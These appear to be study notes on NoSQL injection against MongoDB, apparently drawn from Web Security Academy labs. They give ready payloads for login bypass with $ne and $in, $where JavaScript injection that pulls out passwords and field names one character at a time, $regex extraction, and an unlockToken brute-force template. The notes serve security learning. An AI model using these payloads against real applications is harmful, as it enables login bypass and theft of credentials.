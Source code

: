 resultant - `this.category == 'fizzy'||'1'=='1'` 


## NoSQL operator injection
* $where - Matches documents that satisfy a JavaScript expression.
* $ne - Matches all values that are not equal to a specified value.
* $in - Matches all of the values specified in an array.
* $regex - Selects documents where values match a specified regular expression

-  you can insert query operators as nested objects 
    * in JSON - `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`
    * in UREL - `username=wiener` becomes `username[$ne]=invalid`

If this doesn't work, you can try the following

- Convert the request method from GET to POST.
- Change the Content-Type header to application/json.
- Add JSON to the message body.
- Inject query operators in the JSON.

`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
`{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Exploiting syntax injection to extract data

### Exfiltrating data in MongoDB
As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data.

    admin' && this.password[0] == 'a' || 'a'=='b      #exfilter the password character by character.
    admin' && this.password.match(/\d/) || 'a'=='b    #match the digit in the string
    
### Identifying field names

    admin' && this.username!=' 
    admin' && this.foo!='


## Exploiting NoSQL operator injection to extract data
### Injecting operators in MongoDB

    {"username":"wiener","password":"peter"}  #jason body in post request
    {"username":"wiener","password":"peter", "$where":"0"}  #evaluate to False
    {"username":"wiener","password":"peter", "$where":"1"}  #evaluate to True

*If there is a difference between the responses, this may indicate that the JavaScript expression in the $where clause is being evaluated.*

    "$where":"Object.keys(this)[0].match('^.{0}a.*')"  #extracting fields name, This enables you to extract the field name character by character.
`{"username":"admin","password":{"$regex":"^.*"}}` - exfilter the data by using regex 
`{"username":"admin","password":{"$regex":"^a*"}}` - check the password begis with a
`"$where": "function(){if(this.unlockToken.match(/^0§a§/)) return 1; else 0;}"`
